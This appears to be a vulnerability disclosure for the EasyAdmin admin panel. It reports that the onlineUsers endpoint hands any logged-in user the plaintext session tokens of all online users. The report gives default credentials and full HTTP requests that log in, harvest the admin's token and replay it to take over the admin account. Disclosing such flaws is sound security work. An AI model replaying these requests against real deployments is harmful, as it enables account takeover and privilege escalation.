






## Vulnerability Description

EasyAdmin (master branch) contains a plaintext token leakage vulnerability in the "Online Users" function of the workspace. The `GET /sys/auth/v1/onlineUsers` endpoint in `LoginController.java` (around lines 112-129) only verifies whether the user is logged in, lacks any permission control annotations (e.g., `@SaCheckPermission`), and directly returns a list of `OnlineUser` objects containing plaintext `tokenValue` to the frontend. Any low-privileged user (e.g., `laker` / `lakernote`) can log in and use this endpoint to obtain the session tokens (`LakerToken`) of all currently online users, including the super administrator (`admin`). An attacker can use the obtained token to fully impersonate the victim, leading to arbitrary account takeover and severe privilege escalation risks.

Gitee：https://gitee.com/lakernote/easy-admin

GitHub：https://github.com/lakernote/easy-admin

## **Vulnerability Analysis**

com.laker.admin.module.sys.controller.LoginController#onlineUsers



**Call Chain**

```
HTTP GET /sys/auth/v1/onlineUsers
└─ WebMvcConfig#addInterceptors            [WebMvcConfig.java:59-65]
   └─ StpUtil.checkLogin()                 ← auth check only (no permission check)
      └─ LoginController#onlineUsers()     [LoginController.java:112-129]
         └─ StpUtil.getSession().get(ONLINE_USERS_KEY)   ← returns List<OnlineUser>
            └─ OnlineUser.tokenValue (plaintext)          [OnlineUser.java:19]  ← sink
               └─ Response.ok(onlineUsers)
                  └─ attacker reads others' tokenValue → account takeover
```

## Steps to Reproduce

**1. Login with Default Credentials**

Access the EasyAdmin login page, enter the default username `laker` and password `lakernote`, and click login to successfully enter the backend management dashboard.





**Login Request**

```
POST /sys/auth/v1/login HTTP/1.1
Host: localhost:8080
Content-Length: 103
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/login.html
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3581AA45BBCA361D81E36BC6A38E650A
Connection: keep-alive

{"username":"laker","password":"lakernote","captchaCode":"15","uid":"4e61d25de2b243c2807d7c55f7cbb17d"}
```

**2. Locate the Function Point and Observe the Data Packet**

Navigate to the "Workspace -> Online Users" page in the left sidebar. Observe the loading process of the online user list and use a proxy tool like Burp Suite to capture the HTTP request.

Observe that the request is `GET /sys/auth/v1/onlineUsers`, and the JSON data returned by this endpoint contains the plaintext `tokenValue` fields of all online users.



**3. Craft the Payload and Verify the Vulnerability**

Log in with a low-privileged account (e.g., `laker` / `lakernote`) and access the `GET /sys/auth/v1/onlineUsers` endpoint to obtain the plaintext `tokenValue` (`LakerToken`) of the super administrator (`admin`) leaked in the response body.

Replace your token with the obtained `LakerToken` in the request header and access the `GET /sys/auth/v1/userInfo` endpoint:

Here is the request using my own token to retrieve the list, which contains the admin's token.



```
GET /sys/auth/v1/onlineUsers?page=1&limit=10&keyWord= HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 50bc9b09a0c04ab193efeb38b0db8c66
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/onlineUser.html
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3581AA45BBCA361D81E36BC6A38E650A; LakerToken=50bc9b09a0c04ab193efeb38b0db8c66
Connection: keep-alive
```

Here is the request using the admin's leaked token to access the userInfo endpoint, successfully taking over the admin account.



```
GET /sys/auth/v1/userInfo HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 89f42eb631604d99b9c0b48e93f73b09
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/onlineUser.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

